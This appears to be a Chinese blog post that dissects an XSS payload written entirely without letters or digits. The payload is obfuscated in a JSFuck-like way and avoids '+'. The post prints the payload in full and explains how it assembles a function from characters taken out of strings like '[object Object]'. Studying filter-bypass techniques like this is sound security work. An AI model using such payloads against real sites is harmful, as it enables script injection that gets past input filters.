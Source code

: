 ```yaml
---
title: "A XssPayload Analysis"
date: 2019-07-05T14:51:16+08:00
lastmod: 2019-07-05T14:51:16+08:00
draft: false
tags: [代码学习]
categories: []
comment: true
---
```

一个XSSpayload的分析
<!--more-->
# 一个XSSpayload的分析

>前提：不能使用字母和数字，使用jsfuck加密发现过滤"+"号
- 原始Payload
```-[][`${`${{}}`[!![]<<!![]<<!![]|!![]]}${`${{}}`[!!{}<<![]]}${`${[][~[]]}`[!!{}<<![]]}${`${!![][~[]]}`[(!![]<<!![])|!![]]}${`${![][~[]]}`[!{}<<![]]}${`${![][~[]]}`[!!{}<<![]]}${`${![][~[]]}`[!!{}<<!![]]}${`${{}}`[!![]<<!![]<<!![]|!![]]}${`${![][~[]]}`[!{}<<![]]}${`${{}}`[!!{}<<![]]}${`${![][~[]]}`[!!{}<<![]]}`][`${`${{}}`[!![]<<!![]<<!![]|!![]]}${`${{}}`[!!{}<<![]]}${`${[][~[]]}`[!!{}<<![]]}${`${!![][~[]]}`[(!![]<<!![])|!![]]}${`${![][~[]]}`[!{}<<![]]}${`${![][~[]]}`[!!{}<<![]]}${`${![][~[]]}`[!!{}<<!![]]}${`${{}}`[!![]<<!![]<<!![]|!![]]}${`${![][~[]]}`[!{}<<![]]}${`${{}}`[!!{}<<![]]}${`${![][~[]]}`[!!{}<<![]]}`](`${`${!![][~[]]}`[!!{}<<![]]}${`${!![][~[]]}`[!!{}<<!![]]}${`${![][~[]]}`[(!![]<<!![])|!![]]}${`${![][~[]]}`[!!{}<<![]]}${`${![][~[]]}`[!{}<<![]]}(${!!{}<<![]})`)()-```

- 首先复制全部到谷歌中尝试运行
![](https://ae01.alicdn.com/kf/HTB1dqNxXoz1gK0jSZLeq6z9kVXaA.jpg)
**其实是构造了一个函数**

- 把代码分成三部分
![](https://ae01.alicdn.com/kf/HTB1eQVOXX67gK0jSZPfq6yhhFXar.jpg)

- 依次查看内容
![](https://ae01.alicdn.com/kf/HTB1OkxyXbj1gK0jSZFuq6ArHpXac.jpg)
- 实际执行的语句为
![](https://ae01.alicdn.com/kf/HTB1UZxzXkH0gK0jSZPiq6yvapXaD.jpg)

- 再次分割（拿第一部分为例）
![](https://ae01.alicdn.com/kf/HTB144xzXlr0gK0jSZFnq6zRRXXal.jpg)

- 取第一部分为例
![](https://ae01.alicdn.com/kf/HTB1akJyXoD1gK0jSZFGq6zd3FXaa.jpg)

**那么为什么会是C**

- 列出基础字符
![](https://ae01.alicdn.com/kf/HTB1lMlzXhn1gK0jSZKPq6xvUXXam.jpg)
- 峰回路转
![](https://ae01.alicdn.com/kf/HTB1lMlzXhn1gK0jSZKPq6xvUXXam.jpg)
**对比字母为C的和基础字符，发现一开始是一样的，那么后面的**`[!![]<<!![]<<!![]|!![]]`**是什么**
![](https://ae01.alicdn.com/kf/HTB10pdzXkT2gK0jSZPcq6AKkpXai.jpg)
**是一个数组的格式，结合基础字符查看，相当于**`${{}[5]`
**`${{}`内容为`[object Object]`**
**相当于*`[object Object]`里面的第五个字符，就是`c`

**总结**：==利用基础字符然后类似数组的方式提取出想要的字母去构造出一个完整的payload==

**Thank for Wfox**
